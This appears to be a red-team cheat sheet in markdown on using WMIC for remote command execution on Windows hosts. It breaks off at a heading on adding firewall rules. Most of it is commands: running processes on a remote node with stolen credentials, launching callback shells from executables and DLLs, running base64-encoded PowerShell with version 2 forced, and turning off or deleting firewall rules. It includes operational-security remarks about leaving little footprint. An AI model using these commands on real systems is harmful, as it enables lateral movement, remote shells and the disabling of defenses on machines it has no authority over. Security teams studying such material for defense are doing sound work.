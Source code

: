 # Windows Management Instrumentation Command line (WMIC)

## 01 - Command Prompt

### 1.1 - Usage

- Execute a WMIC with commands remotely (You'll be relying on this a lot and it leaves a little footprint)

```
C:\> C:\Windows\SysWOW64\wbem\WMIC.exe

C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "<commands>"

C:\> wmic /node:<IP> /user:<username> /password:<password> win32_process call create "C:\path\to\shell.exe"
```

### 1.2 - Use Cases

#### 1.2.1 - Spawn Callback Shells

```
C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "cmd.exe /c <commands>"

C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "C:\path\to\shell.exe"

C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "rundll32 C:\path\to\shell.dll"

C:\> wmic /node:<IP> process call create "C:\Windows\System32\WindowsPowershell\v1.0\powershell -v 2 -enc <base64_encoded>"

C:\> wmic /node:<IP> process call create "C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -v 2 -enc <base64_encoded>"
```

#### 1.2.2 - Firewalls

- Disabling firewall rules (not recommended for OPSEC)

`C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "cmd.exe /c netsh advfirewall set allprofiles state off"`

- Deleting a firewall rule

`C:\> wmic /node:<IP> /user:<username> /password:<password> process call create "cmd.exe /c netsh advfirewall firewall delete rule name=\"<rule_name>\""`

- Adding firewall rules
